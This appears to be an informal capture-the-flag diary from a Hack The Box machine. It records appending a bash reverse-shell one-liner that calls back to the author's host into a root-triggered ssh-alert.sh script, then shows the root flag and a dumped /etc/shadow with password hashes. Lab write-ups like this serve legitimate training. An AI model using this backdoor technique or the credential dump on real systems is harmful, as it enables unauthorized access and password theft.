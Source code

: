 Looks like I can just add a line to this and try an ssh login, lolezpwn if so.  Tried:
`
echo 'bash -i >& /dev/tcp/10.10.14.47/4454 0>&1' >>ssh-alert.sh
`
nope, not executing as I can't login to ssh to trigger it.  Seems like that will be the thing at this point..

Did find a post about decrypting secrets frmo pyc files: But I think its a rabbithole
https://blog.jse.li/posts/pyc/

Looked back at the ssh login.  I think its not an authorized key, duh and this is the problem.  Others have added their stuff to authorized keys..

:: Day3
I didn't even add my key to authorized keys but today when I added the line below,the shell popped?  Weird, not sure, maybe someone else ssh'd in, lol
`
echo 'bash -i >& /dev/tcp/10.10.14.47/4434 0>&1' >>ssh-alert.sh
`
Ugh, this is the 2nd time recently that I have put extra hours into a htb box, and it just needed to be reset. Not cool
`
cat /root/root.txt
cc5e6472963a78f258e4aa861e6218f2

cat /etc/shadow
root:$6$a6J2kmTW$cHVk8PYFcAiRyUOA38Cs1Eatrz48yp395Cmi7Fxszl/aqQooB.6qFmhMG1LYuHJpGvvaE1cxubWIdIc1znRJi.:19089:0:99999:7:::
daemon:*:18480:0:99999:7:::
bin:*:18480:0:99999:7:::
sys:*:18480:0:99999:7:::
sync:*:18480:0:99999:7:::
games:*:18480:0:99999:7:::
man:*:18480:0:99999:7:::
lp:*:18480:0:99999:7:::
mail:*:18480:0:99999:7:::
news:*:18480:0:99999:7:::
uucp:*:18480:0:99999:7:::
proxy:*:18480:0:99999:7:::
www-data:*:18480:0:99999:7:::
backup:*:18480:0:99999:7:::
list:*:18480:0:99999:7:::
irc:*:18480:0:99999:7:::
gnats:*:18480:0:99999:7:::
nobody:*:18480:0:99999:7:::
systemd-network:*:18480:0:99999:7:::
systemd-resolve:*:18480:0:99999:7:::
syslog:*:18480:0:99999:7:::
messagebus:*:18480:0:99999:7:::
_apt:*:18480:0:99999:7:::
lxd:*:18480:0:99999:7:::
uuidd:*:18480:0:99999:7:::
dnsmasq:*:18480:0:99999:7:::
landscape:*:18480:0:99999:7:::
pollinate:*:18480:0:99999:7:::
sshd:*:18997:0:99999:7:::
svc_acc:$6$/WRA.GuP$fusYGh.OucHDQzn5.9XdFMO6hcVw7ayD1B9/MVrxKFyv0PDd51.3JUA9qgQMU1Mnvlfjw9xSDb98B1xMwdtZH.:19008:0:99999:7:::
rtkit:*:18997:0:99999:7:::
usbmux:*:18997:0:99999:7:::
avahi:*:18997:0:99999:7:::
cups-pk-helper:*:18997:0:99999:7:::
saned:*:18997:0:99999:7:::
colord:*:18997:0:99999:7:::
pulse:*:18997:0:99999:7:::